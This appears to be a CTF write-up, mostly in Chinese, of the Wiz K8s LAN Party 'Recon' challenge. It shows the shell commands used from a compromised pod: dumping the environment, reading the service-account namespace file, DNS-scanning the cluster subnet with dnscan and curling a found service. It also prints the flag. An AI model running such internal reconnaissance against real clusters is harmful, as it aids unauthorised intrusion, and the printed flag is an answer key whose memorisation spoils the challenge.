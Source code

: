 # Recon

:::note

DNSing with the stars

You have shell access to compromised a Kubernetes pod at the bottom of this page, and your next objective is to compromise other internal services further.

As a warmup, utilize DNS scanning to uncover hidden internal services and obtain the flag. We have "loaded your machine with dnscan to ease this process for further challenges.

All the flags in the challenge follow the same format: `wiz_k8s_lan_party{*}`

你已经获得了对页面底部一个受侵的 Kubernetes Pod 的 shell 访问权限，接下来的目标是进一步攻破其他内部服务。

作为热身，利用 DNS 扫描来发现隐藏的内部服务并获取 flag。为了帮助你完成后续挑战，我们已经在你的机器上预装了 `dnscan` 工具，以简化这一过程。

本次挑战中的所有旗标（flag）都遵循相同的格式：`wiz_k8s_lan_party{*}`

:::

在题目提示中，已经说明环境中预装了 `dnscan` 工具，那么先探测一下环境信息

```shell
player@wiz-k8s-lan-party:~$ env
KUBERNETES_SERVICE_PORT_HTTPS=443
KUBERNETES_SERVICE_PORT=443
USER_ID=39b58ad9-f423-4cd1-a31e-c76545775452
HISTSIZE=2048
PWD=/home/player
HOME=/home/player
KUBERNETES_PORT_443_TCP=tcp://10.100.0.1:443
HISTFILE=/home/player/.bash_history
TMPDIR=/tmp
TERM=xterm-256color
SHLVL=1
KUBERNETES_PORT_443_TCP_PROTO=tcp
KUBERNETES_PORT_443_TCP_ADDR=10.100.0.1
KUBERNETES_SERVICE_HOST=10.100.0.1
KUBERNETES_PORT=tcp://10.100.0.1:443
KUBERNETES_PORT_443_TCP_PORT=443
HISTFILESIZE=2048
_=/usr/bin/env

player@wiz-k8s-lan-party:~$ cat /var/run/secrets/kubernetes.io/serviceaccount/namespace
k8s-lan-party
```

在环境变量信息中，可以得知 Kubernetes 集群的 HOST 为 `10.100.0.1`

那么直接执行扫描

```shell
player@wiz-k8s-lan-party:~$ dnscan -subnet 10.100.0.0/16
34984 / 65536 [----------------------------------------------------------------------------------->________________________________________________________________________] 53.38% 963 p/s
10.100.136.254 getflag-service.k8s-lan-party.svc.cluster.local.
65365 / 65536 [----------------------------------------------------------------------------------------------------------------------------------------------------------->] 99.74% 963 p/s
10.100.136.254 -> getflag-service.k8s-lan-party.svc.cluster.local.
```

得到了一个地址之后，尝试与其进行交互

```shell
player@wiz-k8s-lan-party:~$ curl getflag-service.k8s-lan-party.svc.cluster.local
wiz_k8s_lan_party{between-thousands-of-ips-you-found-your-northen-star}
```

即可得到答案

```flag
wiz_k8s_lan_party{between-thousands-of-ips-you-found-your-northen-star}
```
